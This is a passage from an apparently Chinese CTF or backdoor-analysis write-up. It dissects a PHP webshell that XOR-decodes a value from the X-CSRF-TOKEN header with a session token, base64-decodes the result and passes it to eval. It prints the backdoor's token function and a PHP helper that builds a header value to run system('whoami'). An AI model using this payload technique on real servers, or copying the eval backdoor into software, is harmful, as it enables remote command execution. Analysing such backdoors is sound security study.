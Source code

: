 意思就是类 `class E` 接受一个参数 `$p`，将其通过Base64解密后，放入高危函数 `eval` 内执行
 **那我们想要成功执行命令，就必须控制 `$p` 的传入值** 

那我们看看所谓的 `$p` 是从哪里传入的吧：

```php
@new E(set_token($v, $_SESSION['token']));
```

由此可知，`$p` 为 `set_token($v, $_SESSION['token'])` 的执行结果，所以我们要控制 `set_token($v, $_SESSION['token'])` 的内容才能成功执行命令

- `$v` 参数：从HTTP请求头获取名为 "HTTP_X_CSRF_TOKEN" 的值，并进行Base64解密再讲值重新赋给 `$v`
- `$_SESSION['token']` 参数：给服务器发一个 `TOKEN` 值，会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过HTTP头部返回给客户端

明白了两个参数都是从哪来的之后，我们再来看函数 `set_token()`：

```php
function set_token($v,$t) {
	$r="";
	for ($x=0; $x<strlen($v);$x++) {
		if(($x+1)%strlen($t)!=0) {
			$r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
		} else {
			$r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
		}
	}
	return $r;
}
```

简单来说，函数 `set_token($v, $t)` 就是一个加密算法，作用是根据输入的两个字符串 `$v` 和 `$t`，返回一个新的字符串 `$r`
该函数采用异或（XOR）操作对两个字符串的每个字符进行逐一处理，并将结果拼接成新的字符串返回

而返回的 `$r` 变量，最终会传入 `@new E($r)`，进行Base64解密并放入高危函数 `eval` 内执行

打个比方，假设我们想执行系统命令 `whoami`，那 `$r` 变量就应该是 `system('whoami'); ` Base64加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`
而 `$r` 变量又是 `set_token($v, $_SESSION['token'])` 的加密结果，看上去很清晰，那目前我们的困境是什么？

那就是我们不知道 `$v` 应该传什么值！！！我们目前只知道 `$t=>$_SESSION['token']` 和执行的最终结果 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，那我们能不能通过这两个变量获得 `$v`呢，当然可以！！！

```php
<?php
function decrypt_token($r, $t) {
    $v = "";
    for ($x = 0; $x < strlen($r); $x++) {
        if (($x + 1) % strlen($t) != 0) {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), ($x + 1) % strlen($t))));
        } else {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), 16)));
        }
    }
    return $v;
}

// 已知的 $t 和 $r 的值
$t = $_POST['token'];  //已知的 $t 的值
$r = $_POST['out'];  //"c3lzdGVtKCd3aG9hbWknKTsg" 已知的 $r 的值

// 解密已知的 $r 值得到 $v
$v = decrypt_token($r, $t);
echo base64_encode($v);
```
